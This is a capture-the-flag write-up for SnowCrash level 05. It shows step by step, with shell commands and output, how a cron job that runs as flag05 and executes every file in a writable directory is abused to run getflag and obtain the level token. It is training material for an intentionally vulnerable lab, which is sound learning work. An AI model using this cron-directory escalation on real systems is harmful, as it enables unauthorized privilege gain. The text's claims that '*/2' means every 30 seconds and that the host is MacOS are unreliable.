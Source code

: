 # Level 05

## Vulnerability
Privilege escalation, cron

## Context
When we ssh log in directly to level05, we see the message ```You have new mail.```

## Solution
Lets investigate the mail hint. Cron on MacOS saves mail to /var/mail/{user}.
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 informs us they set up a cron job to run a script /usr/sbin/openarenaserver every 30 seconds.

Lets have a look at the script.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
We see this script is run with user flag05 permissions. Unfortunately we don't have permission to edit this file (and have it call getflag). So lets investigate what this script does.
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script will run all files in /opt/openarenaserver in a bash shell.
Thus we should create a bash script to call getflag in /opt/openarenaserver/.
```
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Wait a minute... and...
```
level05@SnowCrash:~$ cat /dev/shm/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
